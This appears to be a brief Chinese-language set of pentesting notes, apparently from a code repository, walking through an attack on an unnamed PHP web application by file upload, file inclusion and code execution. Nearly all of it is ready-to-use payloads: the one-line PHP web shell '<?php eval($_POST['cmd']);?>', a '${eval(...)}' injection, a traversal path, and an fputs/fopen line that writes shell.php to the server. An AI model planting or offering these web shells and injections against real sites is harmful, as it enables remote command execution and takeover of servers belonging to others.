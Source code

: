  

1、文件上传 ![image-20210502222229094](../acess/image-20210502222229094.png)

2、新建文件

```
<?php eval($_POST['cmd']);?>
```

![image-20210502223216385](../acess/image-20210502223216385.png)

3、文件包含漏洞

```
 ../index.html
```

![image-20210502223410798](../acess/image-20210502223410798.png)

4、代码执行 

```
data\config.cache.inc.php
```

php写入文件代码

```
fputs(fopen("shell.php","a"),"<?php phpinfo();?>")
${eval($_POST[cmd])}
<?php eval($_POST[cmd]);?>
```

![image-20210502223722846](../acess/image-20210502223722846.png)